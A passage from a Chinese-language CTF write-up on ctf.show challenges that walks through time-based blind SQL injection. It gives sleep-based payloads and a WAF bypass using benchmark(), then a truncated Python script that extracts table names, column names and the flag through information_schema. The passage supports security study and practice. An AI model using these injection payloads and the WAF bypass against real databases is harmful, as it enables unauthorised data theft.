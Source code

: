 更改上一题关键代码

```
data['ip']=f"0)||'if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)"
```

### 217 benchmark延时

![截图](6c1aaa0094ef1d27912b9f55729e5a89.png)

首先肯定要括号闭合一下的，其次存在waf，我们传入的语句不能是sleep的大小写形式

那么就要找其平替

参见文章[https://www.jb51.net/article/212587.htm](https://)

那就使用benchmark

```
benchmark(count,exp)执行exp count次
```

<br/>

```python
import time

import requests

url = "http://f70ed68d-44f9-4ed5-8310-c6fee8c45cfe.challenge.ctf.show/api/"
# 表名 ctfshow_flagxccb,ctfshow_info
#payload = "if(ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},benchmark(8000000,md5(0x31)),1)"
# 列名 id,flagaabc,info,id,ip,cname
# payload = "if(ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{},benchmark(8000000,md5(0x31)),1)"
# flag
payload = "if(ascii(mid((select group_concat(flagaabc) from ctfshow_flagxccb),{},1))>{},benchmark(8000000,md5(0x31)),1)"


def valid_char(index: int, ascii: int) -> bool:
    data = {
        "ip": payload.format(index, ascii),
        "debug": 0
```